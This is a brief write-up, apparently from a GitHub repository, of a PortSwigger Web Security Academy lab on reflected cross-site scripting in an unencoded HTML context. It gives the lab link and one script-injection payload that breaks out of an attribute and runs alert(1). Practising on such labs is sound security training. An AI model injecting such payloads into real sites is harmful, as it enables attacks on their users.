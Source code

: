# Lab

https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

## Payload 

`"><script>alert(1);</script>`